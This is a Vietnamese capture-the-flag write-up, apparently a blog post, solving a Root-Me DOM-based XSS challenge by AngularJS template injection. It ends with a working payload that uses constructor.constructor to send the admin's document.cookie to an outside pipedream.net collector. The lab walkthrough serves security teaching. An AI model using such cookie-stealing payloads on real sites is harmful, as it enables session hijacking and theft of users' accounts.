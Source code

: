 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: XSS DOM Based - AngularJS
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - Forensics 
  - C&C
---
```


# __XSS DOM Based - AngularJS__

<span>
:octicons-calendar-24: April 04, 2023 ·
:octicons-clock-24: ~5 minutes

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Client/XSS-attack/xss-dom-DOM-Based-AngularJS?lang=en](https://www.root-me.org/en/Challenges/Web-Client/XSS-attack/xss-dom-DOM-Based-AngularJS?lang=en)

Link challenge này tại [:octicons-arrow-right-24: http://challenge01.root-me.org/web-client/ch3-attack/xss-dom5/][http://challenge01.root-me.org/web-client/ch3-attack/xss-dom5/]

  [http://challenge01.root-me.org/web-client/ch3-attack/xss-dom5/]: http://challenge01.root-me.org/web-client/ch3-attack/xss-dom5/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là ăn cắp được cookie đến từ phía admin. Mà đã cookie đến từ admin thì phải tự tay admin thực thi mới có cookie đó, điều này đồng nghĩa với việc ta cần một thứ gì đó nhằm bắt hành vi của admin và Requestbin là ứng cử viên sáng giá cho việc làm này.

Tiếp theo, ta biết được lệnh lấy cookie đơn giản là document.cookie. Well, ta triển khai kịch bản tấn công thôi nào!

## __Kịch bản tấn công__
### Bước 1: Kiểm tra website

Đầu tiên ta thử gõ vài thứ vào website và xem xét trạng thái như thế nào.

<figure markdown>
  ![Image title](/rootme/web-client/xss-attack/xss-dom/images/xss-dom-based-angularjs-01.png#zoom)
  <figcaption>Hình ảnh website challenge</figcaption>
</figure>

<figure markdown>
  ![Image title](/rootme/web-client/xss-attack/xss-dom/images/xss-dom-based-angularjs-02.png#zoom)
  <figcaption>Hình ảnh mô tả việc thêm nội dung deuteri vào box</figcaption>
</figure>

Ta thấy rằng khi ta thêm nội dung deuteri vào website, thì ngay lập tức nội dung này được đưa vào biến `name` trong thẻ script và nội dung thẻ script như dưới

<div class="result" markdown>

``` js linenums="1"
var name = 'deuteri';
var encoded = '';
for(let i = 0; i < name.length; i++) {
    encoded += name[i] ^ Math.floor(Math.random() * name.length);
}
encoded = Math.abs(encoded ^ Math.floor(Math.random() * name.length));
document.getElementById('name_encoded').innerText += ' ' + encoded;
```

</div>

Để ý rằng nội dung hàm này muốn encode thứ mà ta nhập vào. Nhưng việc hiểu code ở ngữ cảnh này là điều không quan trọng, mục tiêu của ta là chèn payload như nào để có thể bypass được đống code này.

Ta thử dùng cách bypass bình thường để gọi thông báo "1" bằng `deuteri';alert(1);` xem chuyện gì sẽ xảy ra

<figure markdown>
  ![Image title](/rootme/web-client/xss-attack/xss-dom/images/xss-dom-based-angularjs-03.png#zoom)
  <figcaption>Hình ảnh mô tả việc thêm hộp thông báo lên màn hình</figcaption>
</figure>

Không ngoài dự đoán, chả có chuyện gì xảy ra cả ::). Nó filter payload bất định và convert payload đơn thuần về 1 biến đơn thuần như hình dưới. Cụ thể nó xóa đi kí tự `'`.

<figure markdown>
  ![Image title](/rootme/web-client/xss-attack/xss-dom/images/xss-dom-based-angularjs-04.png#zoom)
  <figcaption>Hình ảnh mô tả việc bị filter payload</figcaption>
</figure>

### Bước 2: Tiêm payload

Ta sẽ kiểm tra XSS cheatsheet AngularJS thì ta nhận được cú pháp `{{constructor.constructor("alert(1)")()}}` là cú pháp đúng để hiển thị hộp thoại thông báo `1` lên màn hình.

<figure markdown>
  ![Image title](/rootme/web-client/xss-attack/xss-dom/images/xss-dom-based-angularjs-05.png#zoom)
  <figcaption>Hình ảnh mô tả việc tiêm thành công thông báo</figcaption>
</figure>


Well, bây giờ ta chỉ việc tạo thêm 

### Bước 3: Giải quyết challenge

Từ bước 2, ta đã biết được cú pháp tiêm payload để thực thi script do mình tạo ra.

Ở bước này ta sẽ tiến hành tiêm payload nhằm lấy cookie của admin bằng `document.cookie` với cú pháp đầy đủ của AngularJS: `{{constructor.constructor("document.location=\"https://eo1bklmdt6o4sv.m.pipedream.net?cookie=\\"+document.cookie")()}}`


Và tiếp theo ta chỉ cần đợi hành vi từ admin